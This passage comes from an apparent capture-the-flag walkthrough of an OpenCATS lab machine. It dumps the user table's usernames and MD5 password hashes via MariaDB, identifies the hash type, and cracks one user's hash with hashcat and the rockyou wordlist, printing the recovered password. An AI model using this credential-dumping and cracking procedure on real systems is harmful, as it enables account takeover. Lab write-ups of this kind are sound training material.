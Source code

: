 Now dump the password of users.

```
MariaDB [opencats]> select user_name,email,password from user;
+----------------+----------------------+----------------------------------+
| user_name      | email                | password                         |
+----------------+----------------------+----------------------------------+
| admin          | admin@testdomain.com | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | 0                    | cantlogin                        |
| george         |                      | 86d0dfda99dbebc424eb4407947356ac |
| james          |                      | e53fbdb31890ff3bc129db0e27c473c9 |
+----------------+----------------------+----------------------------------+
4 rows in set (0.410 sec)
```

As we already know that ‘george’ is a user of host, let’s crack the hash of this user. But first find the hashing algorithm.

```
⛩\> hash-identifier 86d0dfda99dbebc424eb4407947356ac
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

It’s MD5 hash.

```
⛩\> hashcat 86d0dfda99dbebc424eb4407947356ac -m 0 /usr/share/wordlists/rockyou.txt

-----------SNIP------------

86d0dfda99dbebc424eb4407947356ac:pretonnevippasempre

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 86d0dfda99dbebc424eb4407947356ac
Time.Started.....: Mon Sep 20 11:20:11 2021 (1 sec)
Time.Estimated...: Mon Sep 20 11:20:12 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4653.3 kH/s (0.21ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4538368/14344385 (31.64%)
Rejected.........: 0/4538368 (0.00%)
Restore.Point....: 4536320/14344385 (31.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: pretty02-9694871 -> prepre123

Started: Mon Sep 20 11:20:10 2021
Stopped: Mon Sep 20 11:20:14 2021
```